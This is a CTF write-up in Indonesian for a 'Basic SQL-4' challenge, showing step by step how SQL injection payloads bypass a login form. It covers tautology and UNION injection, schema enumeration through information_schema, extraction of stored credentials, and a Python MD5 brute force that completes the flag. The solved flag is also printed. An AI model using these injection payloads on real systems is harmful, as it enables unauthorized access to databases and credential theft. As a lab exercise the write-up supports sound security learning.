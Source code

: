 <h1><b>Basic SQL-4</h1></b>
<pre>
Login form (username & password)
</pre>
</b><h3>Solution</h3></b>
<p>Pertama lakukan injection sederhana <b>'or''='</b> untuk username dan password, maka muncul pesan</p>
<pre align='center'>
<b>Username for not_admin incorrect</b>
</pre>
<p align='justify'>Didapatkan username yaitu not_admin, dan setelah dilakukan berbagai metode injection saya tidak dapat mebypass login form tersebut walaupun tidak terdapat filter pada form username. Sepertinya pemeriksaan username dan password secara terpisah pada program dan pada form password terdapat filter string yang impossible</p>


<p>jadi kita hanya dapat melakukan injection pada form username, selanjutnya kita akan melakukan serangan union injection pada form username</p>

<p align='justify'>- Lakukan injection <b>1' union select 1,2 -- -</b> pada form dan lakukan dengan menambahkan list nilai hingga muncul pesan error. Dan kita mendapatkan error pada <b>1' union select 1,2,3 -- -</b>, yang artinya hanya terdapat 2 column, dan injection yang kita gunakan yaitu <b>1' union select 1,2 -- -</b> memunculkan pesan</p>
<pre align='center'>
<b>Username for 1 incorrect</b>
</pre>
<p align='justify'>- Dan mencoba injection nama table dengan sintax <b>1' union select database(),2#</b>, maka diperoleh nama table yaitu CTF</p>
<pre align='center'>
<b>Password for CTF incorrect</b>
</pre>
<p align='justify'>- Selanjutnya, injection untuk mendapatkan nama table pada database CTF
<b>1' union select (select group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA='CTF'),2#</b>, pada injection kita mencari nama table name menurut metadata dari information_schema SQL untuk mendapatkan seluruh table CTF, dan mendapatkan beberapa table yang salah satunya table untuk challenge ini(SQL_Challenge5), dan berikut eksekusinya pada mysql</p>

```mysql
MariaDB [CTF]> select group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA='CTF';
+------------------------------------------------------------------------------------------------------------------+
| group_concat(TABLE_NAME)                                                                                         |
+------------------------------------------------------------------------------------------------------------------+
| *************************************************************************************************,SQL_Challenge5 |
+------------------------------------------------------------------------------------------------------------------+
1 row in set (0.000 sec)
```

<pre align='center'>
<b>Password for SQL_Challenge6,testing,SQL_Challenge3,SQL_Challenge4,SQL_Challenge1,SQL_Challenge7,SQL_Challenge2,SQL_Challenge5 incorrect</b>
</pre>
<p alugn='justify'>- Lalu eksekusi injection <b>1' union select (select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME='SQL_Challenge5'),2#</b> untuk mendapatkan seluruh nama column dari table SQL_Challenge5, dan berikut eksekusi pada mysql dan pesan pada form</p>

```mysql
MariaDB [CTF]> select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME='SQL_Challenge5';
+---------------------------+
| group_concat(COLUMN_NAME) |
+---------------------------+
| username,password         |
+---------------------------+
1 row in set (0.001 sec)

```

<pre align='center'>
<b>Password for username,password incorrect</b>
</pre>
<p align='justify'>- Selanjutnya, jika kita sudah mengetahui nama table salah satunya table <b>SQL_Challenge5</b>, dan ke-2 nama column pada tablenya yaitu <b>username</b> dan <b>password</b>, dan lakukan injection dengan perintah</p> 
<p><b>1' union select (select username from SQL_Challenge5 limit 0,1),2#</b> --> untuk memperoleh username, dan berikut eksekusinya pada mysql</p>

```mysql
MariaDB [CTF]> select username from SQL_Challenge5 limit 0,1;
+-----------+
| username  |
+-----------+
| not_admin |
+-----------+
1 row in set (0.000 sec)

MariaDB [CTF]> 
```
<p><b>1' union select (select password from SQL_Challenge5 limit 0,1),2#</b> --> untuk memperoleh password, dan berikut eksekusinya pada mysql</p>

```mysql
MariaDB [CTF]> select password from SQL_Challenge5 limit 0,1;
+----------+
| password |
+----------+
| admin321 |
+----------+
1 row in set (0.000 sec)

MariaDB [CTF]> 
```
<p>Dan mendapatkan username=<b>not_admin</b>, password=<b>admin321</b>, lalu login dan mendapatkan flag yang tidak complete dengan pesan</p>
<pre align='center'>
<b>Flag is VenomCTF{Hybr1t_5QL_4nd_Brut3_a*d*m*i*n}
Note : Flag is not complete
* is numbers 1-9 and hash 35dab6fb8233a807e8662a9055b3af85</b>
</pre>
<p align='justify'>Jadi tantangan selanjutnya diminta untuk melakukan bruteforce dari 4 bytes flag yang hilang dengan ketentuan "*" merupakan integer 0-9 dan MD5hash 35dab6fb8233a807e8662a9055b3af85</p> 

```python
from Crypto.Hash import MD5
from string import digits
import itertools

number = itertools.product(digits,repeat=4)
for i in number:
    flag = 'VenomCTF{Hybr1t_5QL_4nd_Brut3_a'+i[0]+'d'+i[1]+'m'+i[2]+'i'+i[3]+'n}'
    md5 = MD5.new(flag.encode('utf8')).hexdigest()
    if md5 == "35dab6fb8233a807e8662a9055b3af85":
        print(flag) #VenomCTF{Hybr1t_5QL_4nd_Brut3_a1d3m3i7n}
```


</b><h3>Flag</h3></b>
<pre>
VenomCTF{Hybr1t_5QL_4nd_Brut3_a1d3m3i7n}
</pre>
